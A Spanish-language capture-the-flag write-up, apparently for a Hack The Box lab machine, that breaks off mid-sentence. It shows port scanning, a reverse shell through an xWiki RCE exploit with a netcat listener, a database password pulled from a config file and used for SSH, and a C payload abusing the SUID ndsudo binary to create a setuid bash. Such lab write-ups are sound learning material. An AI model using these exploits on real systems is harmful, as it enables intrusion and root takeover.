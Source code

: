 #xWiki #RCE 

## Reconocimiento
Empezamos la maquina realizando un reconocimiento de puertos y servicios con [[NMAP]]:
`nmap -sS -p- --open --min-rate 5000 -n -Pn -vvv 10.10.11.80 -oG allPorts`

Encontramos los puertos `22, 80, 8080`

Añadimos la maquina al fichero `/etc/hosts`

Navegamos al puerto `80` por la web y encontramos que en el apartado `Docs` nos redirige a `wiki.editor.htb` para poder verlo correctamente lo volvemos a añadir al `/etc/hosts`

Navegando en la web de `http://wiki.editor.htb/xwiki/bin/view/Main/` vemos que la versión de `xWiki` es la `15.10.8`

Buscamos en internet información sobre esta versión y encontramos que es vulnerable a RCE, usamos el exploit de GitHub `https://github.com/Bishben/xwiki-15.10.8-reverse-shell-cve-2025-24893`
el cual nos explica como explotarlo.

## Explotación
Para explotarlo necesitamos ponernos primero en escucha con [[NETCAT]] en un puerto de nuestra maquina `nc -nlvp 4444`

Después deberemos ejecutar el Python 
`python3 cve-2025-24893.py <target_base_url> <lhost> <lport>`

En nuestro listenner obtendremos una Shell como `xWiki`

## Escalada de Privilegios
Si navegamos al directorio `/home` vemos que hay un usuario `Oliver`, para poder pivotar a el, buscaremos información en los archivos de configuración de `xWiki`

Estos ficheros de configuración se encuentran en `/usr/lib/xwiki/WEB-INF` exactamente miraremos el archivo `hibernate.cfg.xml`
En este archivo filtraremos por la palabra `password`
`cat hibernate.cfg.xml | grep "password"` encontramos una línea que nos indica la siguiente contraseña `theEd1t0rTeam99`

Probamos a conectar por SSH al usuario `Oliver` con `ssh oliver@10.10.11.80`
Confirmamos que las credenciales son `oliver::theEd1t0rTeam99`

Ahora tenemos que escalar privilegios a `root`
Probamos a ver que programas podemos ejecutar como root con `sudo -l`
y no nos otorga ninguna información

Probamos con los permisos SUID `find / -perm -4000 2>/dev/null`
Encontramos este fichero `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`
Buscamos información sobre el en internet y descubrimos que es una herramienta diseñada para ejecutar programas con privilegios elevados, encontramos también un POC de escalada de privilegios y lo seguimos paso por paso `https://xsec.sh/blog/untrusted-search-path/`

En nuestra maquina atacante crearemos un fichero `nano nvme.c`
Con el siguiente contedio
```C
#include <unistd.h>
#include <stdlib.h>
int main() {

setuid(0);
setgid(0);
system("cp /bin/bash /tmp/pwn && chmod +s /tmp/pwn");
return 0;
}
```

Este script crea una bash en la carpeta actual y le asigna permisos para conseguir correr `bash -p`

Lo compilarem